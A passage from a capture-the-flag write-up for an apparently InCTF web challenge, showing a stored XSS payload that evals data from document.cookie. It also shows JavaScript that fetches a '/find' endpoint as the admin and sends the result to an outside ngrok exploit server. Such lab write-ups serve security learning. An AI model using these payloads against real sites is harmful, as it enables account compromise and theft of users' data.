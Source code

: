 ```markup
<img/src/onerror="eval(document.cookie.split('; ').sort().join(';'))">
```

This takes up 70 characters, satisfying the length requirement in order to be stored.

![](../../.gitbook/assets/image%20%2857%29.png)

Now, we can store this XSS payload! When the admin visits the site, our payload is fetched:

![](../../.gitbook/assets/image%20%2860%29.png)

The only thing left now is to perform a CSRF to the `/find` endpoint to get the flag, and make a callback to our exploit server with the data.

```javascript
fetch('find?startsWith=in')
	.then(function(response) {return response.text();})
	.then(function (text) {
	var img = new Image();
	img.src = 'http://2e2e80a5f153.ngrok.io/?data=' + encodeURIComponent(text);
})
```

### Pwned

This took way too long, because I didn't think of the simple `window.name` payload! 

![](../../.gitbook/assets/image%20%2853%29.png)

Regardless, I was excited to finally the flag, after way more pain than necessary.

`inctf{youll_never_take_me_alive_ialmvwoawpwe}`

